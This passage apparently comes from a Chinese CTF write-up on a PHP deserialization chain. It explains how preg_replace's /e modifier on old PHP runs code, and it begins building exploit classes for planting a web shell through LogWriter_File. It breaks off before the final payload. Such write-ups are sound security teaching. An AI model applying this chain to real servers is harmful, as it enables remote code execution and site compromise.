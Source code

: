 ```php
class LogFileFormat {
  protected $filters;
  protected $endl;
  function __construct($filters, $endl) {
    $this->filters = $filters;
    $this->endl = $endl;
  }
  function format($txt) {
    foreach ($this->filters as $filter) {
      $txt = $filter->filter($txt);
    }
    $txt = str_replace('\n', $this->endl, $txt);
    return $txt;
  }
};
```

其中又调用了 `filter()` 方法过滤内容，然后调用 `str_replace()` 方法将换行符替换成 endl 成员变量的值。

`filter()` 方法是定义在 OutputFilter 类中，作用是使用成员变量 matchPattern 的值作为 pattern 进行正则匹配过滤：
```php
class OutputFilter {
  protected $matchPattern;
  protected $replacement;
  function __construct($pattern, $repl) {
    $this->matchPattern = $pattern;
    $this->replacement = $repl;
  }
  function filter($data) {
    return preg_replace($this->matchPattern, $this->replacement, $data);
  }
};
```

看到这里，调用了 `preg_replace()`，当 PHP 版本不高于 5.5 时可以用正则的 /e 模式来执行 php 代码。

这里我们用 LogWriter_File 写 shell文件
```php
<?php
class OutputFilter {
  protected $matchPattern;
  protected $replacement;
  function __construct($pattern, $repl) {
    $this->matchPattern = $pattern;
    $this->replacement = $repl;
  }
};

class LogFileFormat {
  protected $filters;
  protected $endl;
  function __construct($filters, $endl) {
    $this->filters = $filters;
    $this->endl = $endl;
  }
};

class LogWriter_File {
  protected $filename;
  protected $format;
  function __construct($filename, $format) {
    $this->filename = str_replace("..", "__", str_replace("/", "_", $filename));
    $this->format = $format;
  }
};
```